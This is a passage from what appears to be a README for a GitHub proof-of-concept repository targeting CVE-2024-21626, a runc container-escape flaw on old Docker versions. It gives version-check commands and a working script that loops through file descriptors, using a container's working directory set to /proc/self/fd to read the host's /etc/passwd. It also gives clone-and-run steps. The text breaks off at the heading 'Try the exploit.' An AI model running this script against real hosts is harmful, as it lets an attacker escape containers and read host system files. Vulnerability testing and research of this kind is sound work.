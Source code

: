 Check the version of **doker-runc/runc**

```shell
runc --version
docker-runc -v
```

# 4. Check if the target is vulnerable and find the right fd 
Run [checkVulnerability.sh](https://github.com/Sk3pper/CVE-2024-21626-old-docker-versions) and see if the file is printed in the the terminal

```shell
# checkVulnerability.sh
#! /bin/bash
for i in {4..20}; do
    sudo docker run -it --rm -w /proc/self/fd/$i alpine:3.14.3 sh -c "tail /proc/self/cwd/../../../etc/passwd"
    echo ""
done
```

```shell
# clone CVE-2024-21626-old-docker-versions repository
git clone git@github.com:Sk3pper/CVE-2024-21626-old-docker-versions.git

# run checkVulnerability.sh
chmod +x checkVulnerability.sh
./checkVulnerability.sh
```

For this example I used `docker-17.03.1-ce` version.
![check vulnerability & find fd](./images/check_target_vulnerability.png)

# 5. Try the exploit
For this example I used `docker-17.03.1-ce` version.
